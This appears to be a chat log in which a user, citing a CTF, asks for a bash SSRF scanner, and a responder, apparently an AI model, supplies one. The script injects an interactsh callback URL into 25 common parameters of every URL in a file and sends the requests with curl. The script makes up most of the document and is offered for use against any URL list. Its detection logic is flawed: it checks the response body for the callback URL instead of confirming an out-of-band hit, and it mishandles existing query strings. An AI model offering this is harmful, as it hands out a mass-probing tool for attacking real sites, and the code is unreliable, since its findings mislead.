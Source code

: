 i have a ctf and create a bash script to test a urls file for ssrf using these parametrs and the ping back is interactsh

?dest=
?redirect=
?uri=
?path=
?continue=
?url=
?window=
?next=
?data=
?reference=
?site=
?html=
?val=
?validate=
?domain=
?callback=
?return=
?page=
?feed=
?host=
?port=
?to=
?out=
?view=
?dir=
      
      
   Certainly! Below is a simple Bash script that you can use to test URLs for Server-Side Request Forgery (SSRF) using the specified parameters. The script uses curl to send HTTP requests with different parameters and checks for a ping back using interactsh:

-------------------------------------------------------------------------------------------   
    #!/bin/bash

# Specify the interactsh server
INTERACTSH_SERVER="http://your.interactsh.server:8000"

# Function to test a URL with a specific parameter
test_url() {
    URL="$1"
    PARAM="$2"
    PAYLOAD="?${PARAM}=${INTERACTSH_SERVER}"

    FULL_URL="${URL}${PAYLOAD}"

    echo "Testing ${FULL_URL}"

    # Use curl to send a GET request
    RESPONSE=$(curl -s "${FULL_URL}")

    # Check if the interactsh ping back is present in the response
    if [[ $RESPONSE == *"${INTERACTSH_SERVER}"* ]]; then
        echo "SSRF found! ${PARAM} parameter is vulnerable."
    else
        echo "No SSRF found for ${PARAM} parameter."
    fi
}

# Read URLs from the file (assuming one URL per line)
URLS_FILE="urls.txt"

while IFS= read -r URL; do
    test_url "${URL}" "dest"
    test_url "${URL}" "redirect"
    test_url "${URL}" "uri"
    test_url "${URL}" "path"
    test_url "${URL}" "continue"
    test_url "${URL}" "url"
    test_url "${URL}" "window"
    test_url "${URL}" "next"
    test_url "${URL}" "data"
    test_url "${URL}" "reference"
    test_url "${URL}" "site"
    test_url "${URL}" "html"
    test_url "${URL}" "val"
    test_url "${URL}" "validate"
    test_url "${URL}" "domain"
    test_url "${URL}" "callback"
    test_url "${URL}" "return"
    test_url "${URL}" "page"
    test_url "${URL}" "feed"
    test_url "${URL}" "host"
    test_url "${URL}" "port"
    test_url "${URL}" "to"
    test_url "${URL}" "out"
    test_url "${URL}" "view"
    test_url "${URL}" "dir"

done < "${URLS_FILE}"

   -----------------------------------------------------------------------------------------------------------   
     Make sure to replace "http://your.interactsh.server:8000" with the actual URL of your interactsh server.

Save the script to a file (e.g., ssrf_test.sh) and make it executable:

bash
Copy code
chmod +x ssrf_test.sh
Then, you can run the script:

bash
Copy code
./ssrf_test.sh
This script assumes that your URLs are stored in a file named urls.txt, with one URL per line. Adjust the file name if your URLs are stored differently. 
